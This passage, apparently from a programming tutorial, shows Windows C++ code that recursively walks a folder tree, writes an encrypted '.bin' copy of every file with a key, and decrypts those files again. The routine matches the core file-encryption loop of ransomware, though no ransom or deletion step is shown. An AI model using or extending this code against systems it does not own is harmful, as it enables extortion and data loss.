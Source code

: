 ```cpp

    if (findFileData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) {
      // recursive call for subfolders
      handleFiles(filePath, key);
    } else {
      // process individual files
      printf("File: %s\n", filePath);
      char encryptedFilePath[MAX_PATH];
      sprintf_s(encryptedFilePath, MAX_PATH, "%s.bin", filePath);
      encrypt_file(filePath, encryptedFilePath, key);
    }

  } while (FindNextFileA(hFind, &findFileData) != 0);

  FindClose(hFind);
}
```

As you can see, the logic is pretty simple.    
The recursive decryption uses the same trick:    

```cpp
void decryptFiles(const char* folderPath, uint64_t key) {
  WIN32_FIND_DATAA findFileData;
  char searchPath[MAX_PATH];
  sprintf_s(searchPath, MAX_PATH, "%s\\*", folderPath);

  HANDLE hFind = FindFirstFileA(searchPath, &findFileData);

  if (hFind == INVALID_HANDLE_VALUE) {
    printf("error: %d\n", GetLastError());
    return;
  }

  do {
    const char* fileName = findFileData.cFileName;

    if (strcmp(fileName, ".") == 0 || strcmp(fileName, "..") == 0) {
      continue;
    }

    char filePath[MAX_PATH];
    sprintf_s(filePath, MAX_PATH, "%s\\%s", folderPath, fileName);

    if (findFileData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) {
      // recursive call for subfolders
      decryptFiles(filePath, key);
    } else {
      // process individual files
      if (strstr(fileName, ".bin") != NULL) {
        printf("File: %s\n", filePath);
        char decryptedFilePath[MAX_PATH];
        sprintf_s(decryptedFilePath, MAX_PATH, "%s.decrypted", filePath);
        decrypt_file(filePath, decryptedFilePath, key);
      }
    }

  } while (FindNextFileA(hFind, &findFileData) != 0);

  FindClose(hFind);
}
```
